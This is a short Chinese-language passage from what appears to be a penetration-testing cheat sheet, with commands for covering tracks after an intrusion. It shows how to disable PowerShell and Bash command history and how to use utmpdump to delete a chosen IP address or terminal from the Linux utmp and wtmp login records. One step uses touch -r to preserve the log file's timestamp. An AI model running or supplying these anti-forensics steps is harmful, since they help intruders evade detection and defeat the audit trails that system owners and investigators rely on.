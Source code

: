 - [Bash记录清除](#bash记录清除)
- [登录IP清除](#登录ip清除)
```powershell
Set-PSReadlineOption -HistorySaveStyle SaveNothing
```
#### Bash记录清除
```powershell
unset HISTFILE
export HISTFILE=/dev/null
export HISTFILESIZE=0
```
#### 登录IP清除
```bash
#1.利用自带命令utmpdump清除
对应关系： w 命令 => /var/run/utmp last 命令 => /var/log/wtmp ，这两个文件的结构相同，都是

struct utmp（/usr/include/bits/utmp.h）

#2.按IP地址清理当前登录记录（w)
utmpdump /var/run/utmp | grep -v 172.20.111. | utmpdump -r > /tmp/1

env mv /tmp/1 /var/run/utmp
#3.按当前pty名称清理当前登录记录(w)
utmpdump /var/run/utmp | grep -v ${SSH_TTY:5} | utmpdump -r > /tmp/1

env mv /tmp/1 /var/run/utmp

#4.按IP清理历史登录记录(last)
utmpdump /var/log/wtmp | grep -v 172.20.111. | utmpdump -r > /tmp/1

touch /tmp/1 -r /var/log/wtmp

env mv /tmp/1 /var/log/wtmp
```
